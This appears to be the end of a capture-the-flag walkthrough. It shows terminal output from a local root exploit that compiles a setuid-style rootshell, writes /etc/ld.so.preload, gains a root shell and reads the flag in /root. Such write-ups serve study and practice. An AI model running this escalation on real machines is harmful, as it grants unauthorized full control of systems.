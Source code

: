 ```bash
     setgid(0);
     ^~~~~~
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid' [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
cd /root
# ls -la
ls -la
total 52
drwx------  4 root root  4096 Jul  3  2018 .
drwxr-xr-x 23 root root  4096 May 12  2018 ..
-rw-------  1 root root     0 Jul  3  2018 .bash_history
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
drwxr-xr-x  2 root root  4096 May 12  2018 .nano
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root    66 May 12  2018 .selected_editor
-rw-------  1 root root 12459 Jul  3  2018 .viminfo
-rw-------  1 root root    33 Jul  1  2018 flag.txt
-rw-------  1 root root   778 Jul  1  2018 note.txt
drwxr-xr-x  2 root root  4096 May 12  2018 scripts
# cat flag.txt
cat flag.txt
5ed185fd75a8d6a7056c96a436c6d8aa
#
```

Hope it helps!